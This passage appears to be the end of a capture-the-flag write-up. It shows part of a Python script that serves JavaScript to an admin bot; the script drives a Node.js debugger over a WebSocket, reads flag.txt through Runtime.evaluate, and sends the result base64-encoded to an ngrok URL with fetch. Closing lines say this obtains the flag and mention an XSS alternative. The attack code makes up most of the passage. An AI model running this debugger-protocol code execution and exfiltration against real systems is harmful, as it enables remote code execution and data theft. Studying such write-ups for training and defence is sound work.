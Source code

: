 ```python
    s.onopen = function() {
        data = `require = process.mainModule.require;fs = require('fs');fs.readFileSync('flag.txt').toString();`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`http://server.ngrok.io/?`+btoa(event.data));
    };
};
g();
</script>""" % uuid
    return s

app.run(port=8080)
```
Submitting your ngrok URL with this to the admin bot is enough to get the flag.

We also could have just had the XSS script fetch /run/ itself, but I don't wanna make a PoC for this.

